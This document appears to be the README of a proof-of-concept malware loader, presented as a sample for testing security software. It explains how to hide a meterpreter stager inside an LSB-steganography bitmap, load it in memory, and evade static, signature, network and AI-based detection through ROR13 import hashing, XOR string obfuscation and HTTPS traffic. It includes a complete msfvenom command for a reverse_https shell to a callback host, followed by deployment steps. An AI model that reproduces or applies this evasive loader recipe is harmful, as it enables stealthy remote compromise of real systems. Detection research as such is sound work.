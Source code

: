 # Description
This is a test malware sample used to load LSB encoded code from the internet. This specific sample template works with LSB encoded bitmap files to extract a stager payload for meterpreter.

The goal is to demonstrate a means of loading malicious code onto a system
without ever touching disk. Additionally, the code leverages a method of
loading require API functionality via accessing the loaded modules directly
from the PEB (Process Execution Block).

This method allows the code to gain access to the Kernel32.dll functions in
order to load additionaly libraries using the LoadLibraryA exported function.
All of the functions loaded leverage a ROR13 hashing technique to avoid any
strings from showing up during static analysis. This makes it much more difficult
for an analysis system or signature detection system to determine the malicious
nature of the binary.

Any other strings that are required in raw form are encoded with a simple XOR
and offset. These strings will no longer be visible to static analysis, but can
easily be decoded at run time to generate required information (URLs, user agents,
etc).

Finally, since LSB steganography is leveraged to download the backdoor, there
are minimal malicious artifacts in the core binary that would allow any detection
from making a determination that this is malicious. The only point when it would
be possible to tell is after the meterpreter shell has been extracted from the
bitmap and loaded directly into memory. The stager payload leverages the executable
encoder shikata-ga-nai to obfuscate the staged payload that is retrieved from the
LSB encoded bitmap file. All communicate done from the meterpreter stager and shell
is done over HTTPS (SSL/TLS) to avoid network based indicators from tripping
security tools.

1. Generating the meterpreter stager:
  `msfvenom -p windows/meterpreter/reverse_https LHOST=10.248.189.74 LPORT=443 -b '\x00\xff' -e x86/shikata_ga_nai -i 3 -f raw`
2. Run the stego encoder with the binary output from above and a desired bitmap
3. Host the bitmap on some HTTP site
4. Set the desired target URL for the bitmap in Utils.h (LSB_TARGET_URL (see HideStrings))
5. Compile and run

Note:
  This is a sample to test malware detection capabilities on security software. The
  provided code was designed to bypass Cylance's AI based detection engine.

Summary of Tactics implemented:

  1. ROR13 hashing - Manually resolving imports
    * https://nickharbour.wordpress.com/2010/07/01/writing-shellcode-with-a-c-compiler/
    * https://www.fireeye.com/blog/threat-research/2012/11/precalculated-string-hashes-reverse-engineering-shellcode.html
  2. String Obfuscation - XOR with Offset
  3. LSB Steganography - encoding malware into benign picture file (used when downloading the meterpreter stage)
  4. In-memory execution - allocates space and launches payload directly from memory (never touch disk)
  5. SSL - communication over SSL to avoid network detection

--------

Future possibilities:

  1. Staged-Encoding - encodes the staged payload to look benign on the wire
  2. Unhooking/remapping binaries
  
  ## See Also
  
  The following projects were used in conjuction with this project to facilitate the full POC:
  1. Hidestrings (https://github.com/sbremner/Hidestrings)
  2. LSBStego (https://github.com/sbremner/LSBStego)
  3. Ror13Constants (https://github.com/sbremner/Ror13Constants)

